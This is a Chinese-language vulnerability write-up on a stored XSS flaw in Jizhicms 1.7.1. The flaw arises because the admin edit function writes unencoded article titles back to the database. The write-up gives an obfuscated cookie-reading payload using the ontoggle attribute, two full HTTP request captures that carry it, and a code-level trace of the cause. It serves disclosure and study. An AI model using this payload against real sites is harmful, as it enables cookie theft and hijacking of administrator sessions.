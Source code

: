 Jizhicms 1.7.1 存储XSS漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

首先自己注册一个账户然后登陆，在文章标题处插入XSS payload

    payload:<details open>

![1.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId24.png)

管理员登录后台点击编辑且没有修改里面的字符串就保存的话那便会触发XSS漏洞![2.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId25.png)![3.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId26.png)首先看一下在前台发表文章处的请求数据包

    POST /user/release.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 187
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/user/release.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=&litpic=&description=123&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

根据url定位到release函数![4.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId27.png)该函数主要是先检查是否是登录状态然后检查是否存在违禁词汇，其中违禁词汇取的是webconf\[\'mingan\'\]的值，由前篇文章可知数据存放在数据库中然后通过缓存读取相关信息，可以直接输出一下![5.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId28.png)

    过滤的东西和XSS关系不大，主要是涉及到文章敏感汉字之类的，然后被保存到数据库中的时候<>变成了< >

![6.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId29.png)看下是如何进行操作的，继续跟进该函数，通过frparam函数进行操作之后对title进行赋值![7.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId30.png)frparam函数在获取到相关值后调用format\_param函数对数据进行处理，由于传入的int的值为1.所以对传入的参数进行了html实体编码![8.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId31.png)![9.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId32.png)所以在数据库中存储的是进行过实体编码的xss payload最后登入后台看下编辑函数

    POST /admin.php/Article/editarticle.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 340
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Article/editarticle/id/34.html
    Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

    go=1&id=34&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&tid=2&seo_title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&hits=0&keywords=&litpic=&file=&description=123&orders=0&tags=&isshow=0&addtime=2020-05-28+17%3A17%3A39&target=&ownurl=&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

看一下数据中的更新情况，又将\< \>变成了\<\>,所以触发了XSS漏洞![10.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId33.png)定位到漏洞函数editarticle，看到同样调用了frparam函数![11.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId34.png)frparam函数由于没有传入参数会直接返回url中的数据![12.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId35.png)在请求包中可以看到是已经将html实体化编码变成了原字符，所以data取到的数据时没有经过html编码的数据![13.png](resource/Jizhicms1.7.1存储XSS漏洞/media/rId36.png)所以在进行update更新操作的时候就会向数据库写入未经html实体化编码的数据

参考链接
--------

> https://xz.aliyun.com/t/7861
